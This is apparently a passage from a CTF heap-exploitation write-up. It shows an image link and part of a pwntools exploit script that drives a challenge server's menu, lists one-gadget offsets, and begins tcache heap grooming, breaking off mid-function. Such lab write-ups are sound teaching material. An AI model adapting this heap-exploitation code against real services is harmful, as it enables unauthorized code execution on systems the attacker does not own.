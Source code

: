 ![heap-6](images/heap-6.png)

  10. The rest is homework

```
from pwn import *
import signal
import sys, time

context.update(arch='amd64', os='linux' )
r = None

def new_chunk(index, size, data):
  r.recvuntil(">")
  r.sendline("1")
  r.recvuntil("idx")
  r.sendline(str(index))
  r.recvuntil("sz:")
  r.sendline(str(size))
  r.recvuntil("data:")
  r.send(data)
  r.recvuntil("Created")

def delete_chunk(index):
  r.recvuntil(">")
  r.sendline("2")
  r.recvuntil("idx")
  r.sendline(str(index))
  r.recvuntil("Deleted")
  
def give_up():
  r.recvuntil(">")
  r.sendline("3")

def realloc_chunk(index, size, data):
  r.recvuntil(">")
  r.sendline("1337")
  r.recvuntil("idx")
  r.sendline(str(index))
  r.recvuntil("sz")
  r.sendline(str(size))


def pwn(gadgets):
  global r
  gadget_list = [ "\x40\x02\xf6", "\xc5\x02\xf6", "\x22\x03\xf6"] #the flag was found with the index:2 element that have the clause [rsp+0x40] == NULL
  r=remote("challs.xmas.htsp.ro", 12004)
  r.recvuntil("Are you ready for another heap challenge?")

  size_now = 0x200 -0x8
  [ new_chunk(x, size_now, str(x)) for x in range(8) ]
  [ delete_chunk(x) for x in range(6,-1,-1)]
```